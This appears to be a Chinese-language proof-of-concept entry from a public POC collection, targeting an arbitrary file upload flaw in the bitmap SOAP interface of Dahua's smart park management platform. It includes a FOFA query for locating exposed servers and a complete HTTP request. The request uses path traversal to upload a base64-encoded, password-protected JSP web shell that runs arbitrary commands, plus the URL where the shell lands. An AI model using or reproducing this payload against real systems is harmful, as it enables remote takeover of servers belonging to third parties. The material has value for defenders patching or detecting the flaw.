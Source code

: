 ## 大华智慧园区综合管理平台bitmap接口存在任意文件上传漏洞

大华园区综合管理平台/emap/webservice/gis/soap/bitmap接口处存在任意文件上传漏洞，恶意攻击者可能会上传后门文件，造成服务器失陷


## fofa
```
app="dahua-智慧园区综合管理平台"
```
![33323d220d4e626f9db80f3dac6829f6](https://github.com/wy876/POC/assets/139549762/d2b1222c-c509-474d-9c28-92b05ade76c1)


## poc
```
POST /emap/webservice/gis/soap/bitmap HTTP/1.1
Host: your-ip
Content-Type: text/xml; charset=utf-8
User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.36

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:res="http://response.webservice.bitmap.mapbiz.emap.dahuatech.com/">
    <soapenv:Header/>           
	    <soapenv:Body>
     		    <res:uploadPicFile>
                    <arg0>
             	    <picPath>/../rce.jsp</picPath>
                    </arg0>
                    <arg1>PCUgaWYoIjEyMyIuZXF1YWxzKHJlcXVlc3QuZ2V0UGFyYW1ldGVyKCJwd2QiKSkpeyBqYXZhLmlvLklucHV0U3RyZWFtIGluID0gUnVudGltZS5nZXRSdW50aW1lKCkuZXhlYyhyZXF1ZXN0LmdldFBhcmFtZXRlcigiY21kIikpLmdldElucHV0U3RyZWFtKCk7IGludCBhID0gLTE7IGJ5dGVbXSBiID0gbmV3IGJ5dGVbMjA0OF07IG91dC5wcmludCgiPHByZT4iKTsgd2hpbGUoKGE9aW4ucmVhZChiKSkhPS0xKXsgb3V0LnByaW50bG4obmV3IFN0cmluZyhiKSk7IH0gb3V0LnByaW50KCI8L3ByZT4iKTsgfSAlPg==</arg1>
                </res:uploadPicFile>
		</soapenv:Body>
</soapenv:Envelope>
```
文件上传路径：http://127.0.0.1/upload/rce.jsp


![image](https://github.com/wy876/POC/assets/139549762/f83ff567-1c39-4b96-8985-90c0f06542b3)
